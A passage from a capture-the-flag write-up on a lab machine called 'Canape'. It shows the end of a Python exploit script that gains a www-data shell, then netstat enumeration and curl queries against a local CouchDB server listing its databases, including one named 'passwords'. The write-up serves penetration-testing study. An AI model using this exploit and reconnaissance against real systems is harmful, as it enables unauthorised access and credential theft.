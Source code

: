 ```python
    check_id = submit_exploit(modified[0] + b"Homer", modified[1])
    print("Got check ID: {}".format(check_id))
    exec_exploit(check_id)
```

I was on the box, but as user `www-data`, which cannot read contents of `/home/homer`, where the `user.txt` file containing the first flag can probably be found.

First, I looked around on the box. Checking and open ports revealed some services that I did not find during my initial scan. As they all seem to listen on `0.0.0.0`, I checked them again using nmap and specifying the corresponding port directly:

* On TCP port 65535 I could find an SSH server reachable from outside
* All other ports show up as filtered in my nmap scan, they are probably blocked by a firewall

```bash
www-data@canape:~$ netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      0          15279       -
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      1000       15311       -
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      1000       15308       -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          15690       -
tcp        0      0 0.0.0.0:41009           0.0.0.0:*               LISTEN      1000       14978       -
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      1000       14092       -
tcp6       0      0 :::65535                :::*                    LISTEN      0          15288       -
tcp6       0      0 :::4369                 :::*                    LISTEN      1000       14093       -
```

Next, I tried to access those services from inside the box. The service on port 5984 responded to an HTTP GET request, looks like a couchdb server:

```bash
www-data@canape:/$ curl http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

I researched a bit on how to talk to the server via commandline, afterwards I tried to get as much information out of it as possible:

```bash
www-data@canape:/$ curl http://localhost:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
www-data@canape:/$ curl http://localhost:5984/_all_docs
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
```